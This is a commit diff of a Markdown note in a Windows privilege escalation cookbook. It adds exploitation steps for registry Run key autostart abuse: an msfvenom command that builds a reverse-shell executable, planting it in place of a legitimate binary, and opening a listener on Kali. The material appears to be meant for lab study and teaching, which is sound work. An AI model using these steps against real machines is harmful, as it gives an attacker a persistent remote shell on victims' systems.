

Before and after one commit to nickvourd/Windows-Local-Privilege-Escalation-Cookbook, a Markdown page: Notes/LogonAutostartExecutionRegistryRunKeys.md, the part around the change. Rendered like a GitHub page; pictures changed too: Pictures/RegistryAutoruns-AboveActions.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Edit Logon Autostart Execution (Registry Run Keys)

````diff
--- a/Notes/LogonAutostartExecutionRegistryRunKeys.md
+++ b/Notes/LogonAutostartExecutionRegistryRunKeys.md
@@ -99,6 +99,26 @@ Outcome:
 
 ## Exploitation
 
+1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:
+
+```
+msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
+```
+
+2) Transfer the malicious executable file to victim's machine.
+
+3) Move the malicious executable file to 'C:\Program Files\NickvourdSrv'.
+
+4) Rename the 'NCV_AMD64.exe' to 'NCV_AMD64.bak'.
+
+5) Rename the malicious exe (shell.exe) to 'NCV_AMD64.exe'.
+
+Outcome:
+
+![RegistryAutoruns-AboveActions](/Pictures/RegistryAutoruns-AboveActions.png)
+
+6) Open a listener on your Kali machine.
+
 ## Mitigation
 
 ## References
````
